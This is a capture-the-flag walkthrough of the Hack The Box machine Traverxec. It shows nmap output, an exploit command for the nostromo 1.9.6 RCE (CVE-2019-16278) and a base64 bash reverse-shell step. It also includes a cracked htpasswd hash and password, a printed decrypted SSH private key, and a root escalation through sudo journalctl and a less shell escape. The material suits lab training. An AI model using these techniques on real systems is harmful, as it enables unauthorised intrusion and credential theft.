 # Traverxec
>Author : Xyan1d3
>Date : 23nd June 2021
>IP : 10.10.10.165
>OS : Linux
>Difficulty : Easy

# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Wed Jun 23 22:12:50 2021 as: nmap -sC -sV -v -oN nmap/traverxec 10.10.10.165
Nmap scan report for traverxec.htb (10.10.10.165)
Host is up (0.14s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods: 
|_  Supported Methods: GET POST
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Here, The box is running `Debian` as confirmed from the SSH banner of `22/tcp`.
![[Pasted image 20210623221628.png]]

On reverse searching the SSH banner version we get to know that we are up against Debian Buster.

We also, get to know that the `80/tcp` is running something odd as an webserver which is `nostromo 1.9.6`.
We may now look for some exploit for this webserver.

# Initial FootHold
We look for some exploits of this uncommon webserver `nostromo 1.9.6`.
The Nostromo 1.9.6 is vulnerable to `CVE-2019-16278` which is a RCE.
We do a `searchsploit` and find out that we have a python exploit.

![[Pasted image 20210623222215.png]]

We have to modify the exploit little bit and need to remove a line from the exploit.
![[Pasted image 20210623222552.png]]

We need to run the exploit using the `IP` ,`Port` and `Command`.
Command Run : 
```python
python2 nostromo_exploit.py 10.10.10.165 80 id
```
![[Pasted image 20210623222759.png]]

We could now, run a bash reverse shell and get an inital foothold on the box.
We create a `bash -i` reverse shell and `base64` encode it and send the payload to the command and get a Initial shell as `www-data` into the box.
![[Pasted image 20210623223218.png]]

# User Escalation as user david
We search for the `nostromo` web directory which we find out at `/var/nostromo`.
![[Pasted image 20210623224041.png]]
Here are two important lines which states that the pages are locked by `.httpasswd` and there is a `public_www` inside the home of the regular users.

We read the webserver config from `nhttpd.conf`
```python
www-data@traverxec:/var/nostromo/conf$ cat .htpasswd 
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

We crack the hash with `rockyou.txt` and find out that the password is `Nowonly4me`.
![[Pasted image 20210623224507.png]]

We find out that the directory contains a `backup-ssh-identity-files.tgz` archive.
![[Pasted image 20210623224754.png]]

We transfer it to our box and decompress it and find out that we have a ssh private key inside the archive.
![[Pasted image 20210623225111.png]]

We see that our SSH Key is encrypted, So we do a `ssh2john.py` and crack the hash with JtR.
```python
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
dTRqVqTnP7zI8GyKTV+KNgA0m7UWQNS+JgqvSQ9YDjZIwFlA8jxJP9HsuWWXT0ZN
6pmYZc/rNkCEl2l/oJbaJB3jP/1GWzo/q5JXA6jjyrd9xZDN5bX2E2gzdcCPd5qO
xwzna6js2kMdCxIRNVErnvSGBIBS0s/OnXpHnJTjMrkqgrPWCeLAf0xEPTgktqi1
Q2IMJqhW9LkUs48s+z72eAhl8naEfgn+fbQm5MMZ/x6BCuxSNWAFqnuj4RALjdn6
i27gesRkxxnSMZ5DmQXMrrIBuuLJ6gHgjruaCpdh5HuEHEfUFqnbJobJA3Nev54T
fzeAtR8rVJHlCuo5jmu6hitqGsjyHFJ/hSFYtbO5CmZR0hMWl1zVQ3CbNhjeIwFA
bzgSzzJdKYbGD9tyfK3z3RckVhgVDgEMFRB5HqC+yHDyRb+U5ka3LclgT1rO+2so
uDi6fXyvABX+e4E4lwJZoBtHk/NqMvDTeb9tdNOkVbTdFc2kWtz98VF9yoN82u8I
Ak/KOnp7lzHnR07dvdD61RzHkm37rvTYrUexaHJ458dHT36rfUxafe81v6l6RM8s
9CBrEp+LKAA2JrK5P20BrqFuPfWXvFtROLYepG9eHNFeN4uMsuT/55lbfn5S41/U
rGw0txYInVmeLR0RJO37b3/haSIrycak8LZzFSPUNuwqFcbxR8QJFqqLxhaMztua
4mOqrAeGFPP8DSgY3TCloRM0Hi/MzHPUIctxHV2RbYO/6TDHfz+Z26ntXPzuAgRU
/8Gzgw56EyHDaTgNtqYadXruYJ1iNDyArEAu+KvVZhYlYjhSLFfo2yRdOuGBm9AX
JPNeaxw0DX8UwGbAQyU0k49ePBFeEgQh9NEcYegCoHluaqpafxYx2c5MpY1nRg8+
XBzbLF9pcMxZiAWrs4bWUqAodXfEU6FZv7dsatTa9lwH04aj/5qxEbJuwuAuW5Lh
hORAZvbHuIxCzneqqRjS4tNRm0kF9uI5WkfK1eLMO3gXtVffO6vDD3mcTNL1pQuf
SP0GqvQ1diBixPMx+YkiimRggUwcGnd3lRBBQ2MNwWt59Rri3Z4Ai0pfb1K7TvOM
j1aQ4bQmVX8uBoqbPvW0/oQjkbCvfR4Xv6Q+cba/FnGNZxhHR8jcH80VaNS469tt
VeYniFU/TGnRKDYLQH2x0ni1tBf0wKOLERY0CbGDcquzRoWjAmTN/PV2VbEKKD/w
-----END RSA PRIVATE KEY-----
```

We crack the passphrase which turns out to be `hunter`.
![[Pasted image 20210623225349.png]]

We do an `openssl` to remove the passphrase from the SSH private key.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.15]─[~/htb/htb-tjnull/traverxec/home/david/.ssh]    
└──╼ # openssl rsa -in id_rsa
Enter pass phrase for id_rsa:
writing RSA key
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEArF67DEHNFO9RlVzEHEzmCB9mbwsKcU8TdYzmG07rbzcmE4RC
I2KQlbOQyoWYtqzbpyPGfhMvxQvW6ZgoibWqNMcSGydNnPh+qtd2gBa07+tRgM4u
Z3l+C49hP6SIXdyQRWESEMPewuujDt1FasSnJxqwr2J4SbyjMO50kSP3F0zxwBJ8
FNPjVtswSiHfHEUS8RhcjOPaYw2T7AFYBpX3QQ9/NL1WvXTKyf09d7w02WRqA4HK
vYEbQ9QejSaCx2kVh+IpEbkLy1o5N51gw2kY8OjMZkbS5PIdDDO/iIgWHOjSb20M
6RuTOaDNBb4WsEHrTe9SnGeI1FcTd5vmJGqhwwIDAQABAoIBAFgqtF5WogHdT8uo
gZ9ALkFlXk3aReMjYX61LVY2jfJ7MPy2n+XdmrsX+C2/HBgEXu4lPHhsc/jET494
hvO5enA4iyhceDScXp4gS7rE4pP9t9i8nbvLxw8+ra2SCTaJhToXptfweFcXlHYb
9E/ieuVjn5B2O7TrykVTE0jSLqc5m1+SdvNPtVX+4cj0n1O6uZMaijg4itca8ffI
kCvx5fh6gR3A3EpFqyJxg7SSVOQ0UpRM333aEHAPLIhCy1ituS+T75FBPA6quByl
vy86PRn25B3m0ArqYlV1ffD16kNb/hr0b8VSOcRxaVFwIuW8g06bclhBu5R+HsQ4
c7IWdxECgYEA03M/rzWIoILIBOT7+N5heGWcVrcSukmGmMPN0/W6uGkiiP6Njnpy
8bAhDQ8bB2vWqjWl3I+XKLMB7x5qIgJ0/8/bTIoKMLajinUsmjM7NFU/p308LYPt
3oGUgy5/08GOwf8IULTAsm072gKo6y/Foq74uHOBBpZABU6dEE1VaN0CgYEA0K+o
6ozrL3qlhblg6grMdE0bPU2OQ9PGTApKo/AYGJCn1jYr6vB4IYb//Tn0DkvdwupJ
kMarBK3f0e6kR4LLqCLu34uKhndYIifzGyvWIO/hD15Zw3B8RQTH/Xt3mBPat6lz
i4OnwcHoXV7dmijlazjmUDUeYXLRD/HNhIUIOx8CgYEAoyxWwtCfBK6nyA8k2yJR
OWXARbK1QwimU5EWbzE7zD9lpS468u5PcW8nsjor84gmeec4fYJZddDd9zcTU/dt
blNquh/0SS9H+Pr/Vmeekn4OxyN/ougiUgjRIIJrpm/ByLcUJaO26HofK9fNnuCY
tTgtO7n2oayk7vOBhSkIdgkCgYAWR7rcF+GANzL23Pzo3/BGNnlDCUW4HiMcuTiQ
2jBoZwFUUIJN2hCpW7V2/rn80MLDbaofB+b4X+v2iOkHLYK618fzG/3VL2a8dtFw
xDRfXd0EfAlPYXITGFiVypnRJcWDOFc6vPqrKB274kX8kIM1+GQ2igVNWCnT7vgH
PwDK9wKBgH0ORm/d/mdGqmAPNQZ1GKrGBiWCRZ4LTr92Y+QHEuEOEIHqo+fZsRty
OwJfz7ILF078OKHoWWUGk/nDQesGs0VqE3hgCN8Z9/tNOOivvpw45C1x5XkiSZkr
GaUwbDziJwQ5lb5D+we+E0nyOsfgfKvnKSp/09A90golZK4CbtVQ
-----END RSA PRIVATE KEY-----
```

We use this SSH key to SSH into the `david` user.
![[Pasted image 20210623230024.png]]

We could now get the `user.txt`.
![[Pasted image 20210623230144.png]]

# Root Escalation
We have a bin directory which has a `server-stats.sh` which issues sudo `journalctl`.
```python
david@traverxec:~/bin$ ls
server-stats.head  server-stats.sh
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash
cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

The journalctl command by default calls less command.
But, It is reading 5 lines So, To get the `less` editor we need to shrink the terminal size and in less issue `!/bin/bash` to get bash shell as `root`.


![[Pasted image 20210623231035.png]]

We get the `root.txt`
![[Pasted image 20210623231100.png]]
